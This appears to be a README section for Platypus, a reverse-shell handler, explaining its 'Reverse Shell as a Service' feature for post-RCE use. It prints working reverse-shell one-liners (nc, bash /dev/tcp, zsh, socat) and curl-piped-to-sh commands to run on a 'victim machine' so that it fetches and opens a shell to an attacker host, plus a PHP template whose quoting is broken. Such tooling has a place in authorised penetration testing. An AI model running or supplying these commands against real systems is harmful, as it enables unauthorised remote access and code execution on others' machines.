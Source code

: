 # Reverse shell as a Service

> NOTICE: ONLY WORKS on *NIX

Platypus is able to multiplex the reverse shell listening port. Port `13337 / 1338` can handle reverse shell client connections.  
Also, There is another interesting feature that platypus provides, which is called `Reverse Shell as a Service (RaaS)`.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.
Like you have already used before, here are some **BAD** examples:

```bash
nc -e /bin/bash 192.168.174.132 8080
bash -c 'bash -i >/dev/tcp/192.168.174.132/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.174.132 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.132:8080
```

To archive your aim, all you need is to construct a URL that indicates the target.

The command `bash -c "bash -i >/dev/tcp/5.6.7.8/13337 0>&1"` is the equivalent of `curl http://1.2.3.4:13337/5.6.7.8/13337 | sh`, this feature provides the capability to redirect a new reverse shell to another IP and port without remembering the boring reverse shell command.

If you just want to pop up a reverse shell to the listening port of platypus, the parameter (`1.2.3.4/13337`) can be omitted.

Once the command gets executed, the reverse shell session will appear in platypus which is listening on `1.2.3.4:13337`.

## Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337 | sh` on the victim machine

## Specifying language of reverse shell command (default: bash)

Also, you can specify the specific language of creating a reverse shell. All available languages are listed at [templates](https://github.com/WangYihang/Platypus/tree/master/lib/runtime/template/rsh)

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337/python | sh` on the victim machine

## What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337/5.6.7.8/7331/python | sh` on the victim machine

## How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",`popen /bin/sh -i <&3 >&3 2>&3", "r");'`
```

Then you should use `go-bindata` to add the template file as an asset of Platypus by typing the following command.

```
go get -u github.com/go-bindata/go-bindata/...
go-bindata -pkg resource -o ./lib/util/resource/resource.go ./lib/runtime/... ./html/dist
```
